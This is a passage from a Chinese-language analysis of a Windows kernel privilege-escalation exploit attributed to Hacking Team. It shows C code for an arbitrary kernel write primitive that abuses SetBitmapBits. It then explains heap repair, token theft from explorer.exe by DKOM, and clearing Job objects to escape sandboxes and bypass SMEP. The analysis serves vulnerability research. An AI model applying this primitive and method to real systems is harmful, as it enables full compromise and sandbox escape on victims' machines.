 ```
22  // ported
23  unsigned int arbwrite(PVTABLE lpTable, unsigned int addrl, unsigned intaddrh, unsigned int value0, unsigned int value1) {
24  unsigned int tmp[4]; // = {0,0,0,0};
25   
26  __MEMSET__(tmp, 0, 4);
27   
28  if (lpTable->locals->is64) {
29  tmp[0] = tmp[2] = addrl;
30  tmp[1] = tmp[3] = addrh;
31  lpTable->fpSetBitmapBits(lpTable->locals->thehandle, sizeof(tmp), &tmp);
32   
33  tmp[0] = value0;
34  tmp[1] = value1;
35  lpTable->fpSetBitmapBits(lpTable->locals->hBitmap, 8, &tmp[0]);
36  } else {
37  tmp[0] = tmp[1] = addrl;
38  lpTable->fpSetBitmapBits(lpTable->locals->thehandle, 8, &tmp);
39   
40  tmp[0] = value0;
41  lpTable->fpSetBitmapBits(lpTable->locals->hBitmap, sizeof(tmp[0]), &tmp[0]);
42  }
43   
44  return tmp[0];
45  }

```

0x03 修复内核堆
==========

* * *

由于漏洞是在上溢过程中进行的对前一个对象写入，必然会对内核堆造成破坏，所以必须要修复内核堆的结构，这样才能实现在进程退出，对象被释放时不会造成系统蓝屏崩溃，详细的修复代码可以参考源码中触发利用点之后的操作，篇幅关系就不在这里完全列出了。

0x04 实现权限提升
===========

* * *

在实现了内核任意地址写入功能后，权限提升过程就比较简单了，攻击代码通过遍历内核进程表找到explore.exe的进程token，直接将explore的token对象的地址写入到当前进程的token中，并清除进程的Job对象，来实现最终完全绕过各类沙盒的保护功能。

由于权限提升过程中完全使用了DKOM的方式，没有进行内核代码执行，因此也绕过了Windows8以上系统中的SMEP内核保护功能。 我们在分析这个漏洞的过程中，发现目前Hacking Team版本的漏洞利用代码还是存在一些问题的，由于最终的提权代码直接从Explore复制的token对象，会导致该token对象的引用计数出现问题，当系统关机、注销，或者Explore.exe异常结束，最终导致Explore.exe进程退出时，可能会导致引用错误的token对象，引发系统蓝屏崩溃，这是这个利用不够优美的地方。